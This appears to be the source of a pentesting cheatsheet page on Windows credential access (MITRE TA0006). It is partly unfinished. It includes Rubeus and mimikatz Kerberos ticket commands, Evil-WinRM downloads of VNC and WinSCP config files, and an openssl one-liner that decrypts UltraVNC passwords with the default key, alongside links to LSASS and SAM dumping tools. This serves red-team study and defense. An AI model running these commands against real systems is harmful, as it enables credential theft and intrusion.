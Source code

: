 ```yaml
---
layout: post
title: TA0006 Credentials Access - Windows
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2023-03-13
permalink: /:categories/:title/
---
```


**Mitre Att&ck Entreprise**: [TA0006 - Credentials Access](https://attack.mitre.org/tactics/TA0006/)

<!-- vscode-markdown-toc -->
* [Multi-features Hacking Tools](#Multi-featuresHackingTools)
* [T1558: Steal and Forge Kerberos Tickets](#T1558:StealandForgeKerberosTickets)
	* [Which OS ? What Creds ?](#WhichOSWhatCreds)
	* [Rubeus](#Rubeus)
	* [Kerberos ASKTGT](#KerberosASKTGT)
	* [Import / Export Tickets](#ImportExportTickets)
* [LSASS.exe dump](#LSASS.exedump)
* [SAM dump](#SAMdump)
* [Services](#Services)
* [Scheduled Tasks](#ScheduledTasks)
* [Sofwares](#Sofwares)
	* [Automated](#Automated)
	* [mRemoteNG](#mRemoteNG)
	* [xVNC](#xVNC)
	* [WinSCP](#WinSCP)
	* [Putty](#Putty)
	* [Web Browsers](#WebBrowsers)
* [NTDS.dit dump](#NTDS.ditdump)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='Multi-featuresHackingTools'></a>Multi-features Hacking Tools

<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var repos = ["https://api.github.com/repos/gentilkiwi/mimikatz/","https://api.github.com/repos/skelsec/pypykatz", "https://api.github.com/repos/SecureAuthCorp/impacket", "https://api.github.com/repos/Hackndo/lsassy", "https://api.github.com/repos/deepinstinct/Lsass-Shtinkering","https://api.github.com/repos/D1rkMtr/DumpThatLSASS","https://api.github.com/repos/codewhitesec/HandleKatz","https://api.github.com/repos/Z4kSec/Masky","https://api.github.com/repos/login-securite/DonPAPI","https://api.github.com/repos/Processus-Thief/HEKATOMB","https://api.github.com/repos/AlessandroZ/LaZagne"]; for (rep in repos) {$.ajax({type: "GET", url: repos[rep], dataType: "json", success: function(result) {$("#repo_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.updated_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="repos">
    <table id="repo_list" class="sortable">
      <tr><th>repo</th><th>last update</th><th>stars</th><th>watch</th><th>language</th></tr>
    </table>
</div>

## <a name='T1558:StealandForgeKerberosTickets'></a>T1558: Steal and Forge Kerberos Tickets 

### <a name='WhichOSWhatCreds'></a>Which OS ? What Creds ?

![Windows Credentials by Auth. Service & by OS](/assets/images/win-delpy-creds-table-by-os-til-2012.png)

TO READ: 
* [OS credentials dumping - mitre T1003](https://attack.mitre.org/techniques/T1003/001/)
* [LSA RunAsPPL protection](https://itm4n.github.io/lsass-runasppl/)

### <a name='Rubeus'></a>Rubeus 

- [Wiki](https://github.com/GhostPack/Rubeus)
- Compilation :
```powershell
# compilation
```

### <a name='KerberosASKTGT'></a>Kerberos ASKTGT 
```powershell
# Path on VM Mandiant Commando
cd C:\Tools\GhostPack\Rubeus\Rubeus\bin\Debug
./Rubeus.exe asktgt /user:$zlat_user /password:"PASSWORD" /domain:$zdom /dc:$zdom_dc_fqdn /ptt
```

### <a name='ImportExportTickets'></a>Import / Export Tickets
```powershell
cd C:\tools\mimikatz\x64
mimikatz.exe privilege:debug
kerberos::list /export
```

## <a name='LSASS.exedump'></a>LSASS.exe dump

- [redteamrecipe 50 methods](https://redteamrecipe.com/50-Methods-For-Dump-LSASS/) 🔥
- [procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump)

## <a name='SAMdump'></a>SAM dump

- [registry & vss](https://nored0x.github.io/red-teaming/Windows-Credentials-SAM-Database-part-1/)

## <a name='Services'></a>Services

## <a name='ScheduledTasks'></a>Scheduled Tasks

## <a name='Sofwares'></a>Sofwares

### <a name='Automated'></a>Automated

<script>$(window).load(function() {var reposs = ["https://github.com/Arvanaghi/SessionGopher", "https://github.com/EncodeGroup/Gopher", "https://api.github.com/repos/login-securite/DonPAPI","https://api.github.com/repos/AlessandroZ/LaZagne"]; for (repp in reposs) {$.ajax({type: "GET", url: reposs[repp], dataType: "json", success: function(result) {$("#repo_listt").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.updated_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<div id="reposs">
    <table id="repo_listt" class="sortable">
      <tr><th>repo</th><th>last update</th><th>stars</th><th>watch</th><th>language</th></tr>
    </table>
</div>

### <a name='mRemoteNG'></a>mRemoteNG

- [password decryption](https://github.com/S3cur3Th1sSh1t/mRemoteNG-Decrypt)

### <a name='xVNC'></a>xVNC

* VNC softwares properties:  

| software | registry key | ini file |
|----------|--------------|--------|
| RealVNC | HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver | C:\Program Files\RealVNC\ |
| TightVNC | HKEY_CURRENT_USER\Software\TightVNC\Server | C:\Program Files\TightVNC\ |
| TigerVNC | HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4 | C:\Program Files\TigerVNC\ |
| UltraVNC | | C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini |

* Example of download of the ini file:
```
Evil-winRM > download "C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini" /tmp/ultravnc.ini
```

* UtltraVNC specificities

passwd - full control password
passwd2 - read-only password
```
# des decryption using the ultravnc default decryption key 'e84ad660c4721ae0' 
echo -n passwd | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv

# test the password / vnc access
vncsnapshot 1.2.3.4 pwned_desktop_x.png
```


### <a name='WinSCP'></a>WinSCP

* Get an RDP session
* Check if there are saved passwords
* Export the configuration
* Download of the ini file:
```
Evil-winRM > download "C:\Windows\Temp\winscp.ini" /tmp/winscp.ini
```

### <a name='Putty'></a>Putty

### <a name='WebBrowsers'></a>Web Browsers
- [chrome / mac os](https://github.com/breakpointHQ/chrome-bandit)

## <a name='NTDS.ditdump'></a>NTDS.dit dump